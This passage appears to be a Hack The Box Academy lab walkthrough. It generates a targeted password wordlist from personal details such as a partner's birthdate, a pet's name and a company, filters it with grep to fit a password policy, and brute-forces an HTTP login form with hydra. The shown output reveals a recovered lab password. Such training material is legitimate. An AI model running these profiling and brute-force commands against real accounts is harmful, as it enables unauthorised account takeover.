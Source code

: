 ```
> Partners) nickname: Jimbo
> Partners) birthdate (DDMMYYYY): 12121990

> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 

> Pet's name: Spot
> Company name: AHI

> Do you want to add some key words about the victim? Y/[N]: y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: y
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to jane.txt, counting 43222 words.
[+] Now load your pistolero with jane.txt and shoot! Good luck!
```

After generating the wordlist, students will proceed to truncate it to adhere to a six-character length string (words), that have at least one uppercase letter, one lowercase letter, and two special characters:

Code: shell

```shell
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-rt6zrudlru]─[~]
└──╼ [★]$ grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```

Students will use `hydra` to brute-force the `http-post-form` using the `jane_smith_usernames.txt` and `jane-filtered.txt` password lists:

Code: shell

```shell
hydra -L jane_smith_usernames.txt -P jane-filtered.txt STMIP -s STMPO -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-rt6zrudlru]─[~]
└──╼ [★]$ hydra -L jane_smith_usernames.txt -P jane-filtered.txt 94.237.53.113 -s 33384 -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-30 05:40:24
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100604 login tries (l:14/p:7186), ~6288 tries per task
[DATA] attacking http-post-form://94.237.53.113:33384/:username=^USER^&password=^PASS^:Invalid credentials
[33384][http-post-form] host: 94.237.53.113   login: jane   password: 3n4J!!
[STATUS] attack finished for 94.237.53.113 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-30 05:40:25
```
